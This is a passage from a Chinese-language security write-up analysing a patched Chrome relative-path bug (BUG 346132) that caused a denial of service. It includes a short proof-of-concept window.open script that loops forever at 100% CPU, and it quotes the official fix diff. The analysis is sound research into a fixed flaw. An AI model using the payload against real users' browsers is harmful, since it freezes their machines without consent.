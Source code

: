 ### 0x03a chrome 相对路径 dos（协议处理不当）

理论上说，代码和逻辑嵌套的越深，越容易出问题，不过这个问题倒不是这个引起的。前些天在测试一个嵌套代码的时候，就发现了测试机器上的浏览器出现了一个很奇怪的症状：打开某某 chrome 内核的浏览器之后，在嵌套的窗口中通过脚本执行`location.href="me:blablablast"`之后，居然出现了 cpu 占用 100%的情况。 继而我又惊奇的发现包括 v31 以下版本的 chrome 都有这个问题（BUG 346132），为了方便查看，我把 location.href 换成了 window.open（），这一下看到了一个好玩的现象：

我的代码是：

```
<script>
   var k=1;
   window.open("data:text/html, <scri"+"pt>var k=1111;window.open('window.open(\\\"about:blank\\\")')</scrip"+"t>"+"</scrip"+"t>","lll");
</script>

```

理应最不济也是按照这个方式弹出窗口，最多只有 4 个：

```
window1: data:text/html, <script>...</script>
window2: javascript:window.open('window.open(\"about:blank\")')
window3: javascript:window.open("about:blank")
window4: about:blank 
```

可是没想到从第二个窗口开始，它就无情的弹出了：

```
window1: data:text/html, <script>...</script>
window2: data:text/html, <script>...</window.open("about:blank")
window3: data:text/html, <script>...</window.open("about:blank")
.... 
```

正是如此，由于阴差阳错我忘了加`javascript:`，但是不巧 Chrome 也错把`window.open()`这个当作了相对路径，更不巧的是它居然搜索到了第二个正斜线/处，并把它后面的内容替换成了`window.open`。

这也就意味着，从 window2 开始，他就开始了一直执行同一段代码的不归路，难怪会一直占 100%cpu 呢。

官方的修复是（REV 168294）：

```
M http://src.chromium.org/viewvc/chrome/trunk/src/url/url_canon_relative.cc?r1=254565&r2=254564&pathrev=254565
   M http://src.chromium.org/viewvc/chrome/trunk/src/url/url_canon_unittest.cc?r1=254565&r2=254564&pathrev=254565

url_cannon_relative.cc:  +
124      if (!is_base_hierarchical) {
125                  // Don't allow relative URLs if the base scheme doesn't support it.
126                  return false;
127                } 
```

### 0x03b 百度浏览器下载 dos （特殊情况考虑不完善）
